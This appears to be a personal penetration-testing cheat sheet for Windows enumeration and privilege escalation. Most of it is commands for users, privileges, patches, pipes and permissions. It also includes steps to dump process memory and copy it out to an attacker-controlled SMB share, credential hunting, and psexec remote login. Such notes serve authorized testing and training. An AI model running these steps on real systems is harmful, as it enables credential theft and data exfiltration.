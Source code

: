 # Windows Enumeration

## Basic System Information

	echo %USERNAME%		Print current user
	whoami /priv		Displays current user privileges
		Interesting Privileges:
			SeDebugPrivilege
			SeTakeOwnership
			SeBackupPrivilege
				https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/
			SeLoadDriverPrivilege
	whoami /priv in cmd as admin
	whoami /groups		Displays current user groups
		Interesting Groups:
			Backup Operators
			Event Log Readers
			DnsAdmins
			Server Operators
	whoami /groups in cmd as admin
	whoami /all
	net user		Print all users
	net localgroup		Print all groups
	net localgroup <groupname>		Prints information of group
	tasklist /svc		Gives a better idea of what applications are running on the system. Prints the name of executables and services running
		https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tasklist

	set		Prints env variables including PATH
	
	wmic product get name		Get installed programs
		or using powershell
		Get-WmiObject -Class Win32_Product |  select Name, Version

	netstat -ano		Display active tcp and udp connections
	query user		Display active users
	net accounts		Prints password policy

	get-process		Enumerates running processes

		Use procdump https://learn.microsoft.com/en-us/sysinternals/downloads/procdump , to dump the memory of any interesting running process

			.\procdump.exe -ma <process_id> <output_file>
		
		We can use an smb share to download the output_file in cmd:

			on our local machine we do

			smbserver.py -smb2support -username guest -password guest share <path_to_folder_we_gonna_share>

			smbserver is a script from impacket

			on the remote machine we do

			net use x: \\<our_local_ip>\share /user:guest guest #

			and now we copy the dump file

			cmd /c "copy <filen_name>.dmp X:\"

		We can do the same in powershell:

			impacket-smbserver.py -smb2support share <path_to_folder_we_want_to_share>

			in powershell

			New-PSDrive -Name Exfil -PSProvider -FileSystem -Root "\\10.10.14.8\share"

	cmdkey /list	Lists stored credentials

## Gather Network Information

	ipconfig /all
	arp -a
	route print

## Enumerate Protections

	Get-MpComputerStatus
	Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
	Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone 		Tests Applocker policy


## System info

Check if Windows version has any known vulnerability (also check the patches applied)

		https://www.catalog.update.microsoft.com/Search.aspx?q=hotfix
		systeminfo #Prints information of the system, including hotfixes applied
		systeminfo | findstr /B /C:"OS Name" /C:"OS Version" #Get only that information

		If systeminfo doesn't display hotfixes, they may be queriable with WMI using the WMI-Command binary with QFE (Quick Fix Engineering) to display patches.

		wmic qfe get Caption,Description,HotFixID,InstalledOn #Patches
		wmic os get osarchitecture || echo %PROCESSOR_ARCHITECTURE% #Get system architecture

		[System.Environment]::OSVersion.Version #Current OS version
		Get-WmiObject -query 'select * from win32_quickfixengineering' | foreach {$_.hotfixid} #List all patches
		Get-HotFix | ft -AutoSize
		Get-Hotfix -description "Security update" #List only "Security Update" patches

## Check communication through processess using pipes

	pipelist.exe /accepteula		enumerate instances of named pipes
		https://docs.microsoft.com/en-us/sysinternals/downloads/pipelist
	Get-ChildItem \\.\pipe\		enumerate instances of named pipes with powershell
	accesschk.exe /accepteula \\.\Pipe\<name_of_pipe> -v		Enumerate permissions of pipe. We are looking for a pipe we have WRITE permissions for our user
		https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk
	accesschk.exe -w \pipe\* -v		Enumerates all pipes that have WRITE permission


## Check weak permission

	Use the sharpup too to check service binaries suffering from weak ACLS

		SharpUP.exe audit
			https://github.com/GhostPack/SharpUp/
	Check permissions using icacls
		https://ss64.com/nt/icacls.html


## If we are in a Active Directory Environment

	Use snaffler to search for credentials.

## Remote Login with username and password

We can try doing remote logins with useranmes and passwords using a script from impacket

	psexec.py '<username>:<password>@<remote_host_ip>'


## Try WinPeas

	https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS

## More info

	https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
	https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation

